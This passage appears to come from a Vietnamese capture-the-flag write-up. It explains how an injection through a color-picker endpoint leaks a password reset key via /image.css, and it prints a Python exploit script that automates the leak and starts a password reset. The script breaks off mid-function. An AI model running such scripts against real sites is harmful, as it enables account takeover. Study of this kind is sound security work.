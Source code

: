 <img width="949" height="528" alt="image" src="https://github.com/user-attachments/assets/0eb938a6-e456-4291-be5c-1da11f92c96a" /> <br>
Chúng ta đã inject thành công sau đó truy cập /image.css để get reset_key đã reset <br>
<img width="413" height="139" alt="image" src="https://github.com/user-attachments/assets/4e30b836-a564-4f6c-8a95-60bc8c21c96e" /> <br>
Đã leak được thành công. <br>
## Khai thác
Để quá trình tự động hóa tôi đã viết 1 script khai thác: <br>
```py
import requests
import re

class Exploit:
    def __init__(self, baseURL, newPassword, payload, timeout):
        self.baseURL = baseURL.rstrip("/")
        self.newPassword = newPassword
        self.payload = payload
        self.timeout = timeout

    def trigger_reset_mail(self):
        print(f"[+] Reset Mail Write Secret Key")
        response = requests.post(f"{self.baseURL}/reset_mail", timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Trigger Successfully: ", response.text, "\n")
            return True
        else:
            print(f"[-] Trigger Failed: ", response.text)
            return False

    def leak_secret_key(self):
        print(f"[+] Leak Secret Key From Color")
        data = {
            "bgColor[]": self.payload, 
            "fontColor": "#000000"
        }
        response = requests.post(f"{self.baseURL}/color", data=data, timeout=self.timeout)
        if "ColorPicker Done" in response.text:
            print(f"[+] Trigger Shell Successfully")
            return True
        else:
            print(f"[-] Trigger Shell Failed")
            return False

    def fetch_image(self):
        print(f"[+] Get Secret Key")
        url = f"{self.baseURL}/image.css"
        response = requests.get(url=url, timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Leak Secret Key Success: ", response.text, "\n")
            return response.text 
        else:
            print(f"[-] Leak Secret Key Failed: ", response.text, "\n")
            return None

    def pass_reset_key(self, text_css):
        secret = re.search(r'([0-9a-f]{32})', text_css)
        if secret:
            return secret.group(1)
        else:
            return None

    def pass_reset(self, secret_key):
        url = f"{self.baseURL}/pass_reset"
```
